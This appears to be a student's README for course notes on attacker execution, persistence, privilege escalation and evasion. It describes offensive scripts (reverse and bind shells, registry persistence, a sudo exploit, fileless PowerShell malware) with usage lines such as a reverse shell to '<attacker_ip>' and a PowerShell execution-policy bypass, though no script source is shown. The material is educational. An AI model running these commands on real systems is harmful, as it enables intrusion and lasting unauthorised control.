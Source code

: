 ## InfoSEC Course Notes: Execution, Persistence, Privilege Escalation and Evasion - Week 2

This repository contains my notes for Week 2 of the InfoSEC course on Coursera. The course covers various topics related to cybersecurity, including execution, persistence, privilege escalation, and evasion.

### Contents

The `Execution, persistence, privilege escalation and evasion/Week 2` directory contains the following files:

- `README.md`: this file, providing an overview of the contents of the directory
- `slides.pdf`: a PDF file containing the slides used in the course lectures
- `notes.md`: my personal notes on the topics covered in Week 2

### Code Examples

In addition to the lecture slides and my notes, the course also includes several code examples. The following is a brief description of each code file:

- `reverse_shell.py`: a Python script that sets up a reverse shell on a target machine
- `bind_shell.py`: a Python script that sets up a bind shell on a target machine
- `persistence.py`: a Python script that demonstrates how to achieve persistence on a target machine
- `privilege_escalation.sh`: a Bash script that demonstrates a privilege escalation attack
- `fileless_malware.ps1`: a PowerShell script that demonstrates a fileless malware attack

Each code file is accompanied by a brief description of its purpose and usage in Markdown format.
#### `reverse_shell.py`

This Python script sets up a reverse shell on a target machine, allowing an attacker to gain remote access to the machine. The script opens a listener on the attacker's machine and connects to it from the target machine, giving the attacker control over the target machine.

##### Requirements

- Python 2.7 or 3.x

#### Installation

```
git clone https://github.com/MedhatHassan/InfoSEC 
cd InfoSEC/Execution\%2C\ persistence\%2C\ privilege\ escalation\ and\ evasion/Week\ 2
```
##### Usage

To use the script, run the following command on the target machine:

```
python reverse_shell.py <attacker_ip> <attacker_port>
```

Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port number of the attacker's machine.

#### `bind_shell.py`

This Python script sets up a bind shell on a target machine, allowing an attacker to gain remote access to the machine. The script opens a listener on the target machine and waits for an incoming connection from the attacker's machine, giving the attacker control over the target machine.

##### Requirements

- Python 2.7 or 3.x

#### Installation

```
git clone https://github.com/MedhatHassan/InfoSEC 
cd InfoSEC/Execution\%2C\ persistence\%2C\ privilege\ escalation\ and\ evasion/Week\ 2
```

##### Usage

To use the script, run the following command on the target machine:

```
python bind_shell.py <attacker_ip> <attacker_port>
```

Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port number of the attacker's machine.

#### `persistence.py`

This Python script demonstrates how to achieve persistence on a target machine, allowing an attacker to maintain control over the machine even after a reboot. The script adds a new entry to the Windows registry that runs the script every time the machine starts up, ensuring that the attacker's backdoor is always active.

##### Requirements

- Python 2.7 or 3.x
- Windows operating system

#### Installation

```
git clone https://github.com/MedhatHassan/InfoSEC 
cd InfoSEC/Execution\%2C\ persistence\%2C\ privilege\ escalation\ and\ evasion/Week\ 2
```

##### Usage

To use the script, run the following command on the target machine:

```
python persistence.py
```

The script will add a new entry to the Windows registry that runs the script every time the machine starts up, ensuring that the attacker's backdoor is always active.

#### `privilege_escalation.sh`

This Bash script demonstrates a privilege escalation attack, in which an attacker gains elevated privileges on a target machine. The script exploits a vulnerability in the `sudo` command to gain root access.

##### Requirements

- Bash shell
- `sudo` command

#### Installation

```
git clone https://github.com/MedhatHassan/InfoSEC 
cd InfoSEC/Execution\%2C\ persistence\%2C\ privilege\ escalation\ and\ evasion/Week\ 2
```

##### Usage

To use the script, run the following command on the target machine:

```
bash privilege_escalation.sh
```

The script will exploit the `sudo` vulnerability to gain root access.

#### `fileless_malware.ps1`

This PowerShell script demonstrates a fileless malware attack, in which an attacker gains access to a target machine without leaving any traces on the file system. The script uses the Windows Management Instrumentation (WMI) service to execute malicious code in memory.

##### Requirements

- Windows operating system
- PowerShell

##### Installation

No installation is required. Simply download the `fileless_malware.ps1` file to your Windows machine.

##### Usage

To use the script, run the following command on the target machine:

```
powershell -ExecutionPolicy Bypass -File fileless_malware.ps1
```

The script will use the WMI service to execute malicious code in memory, without leaving any traces on the file system.
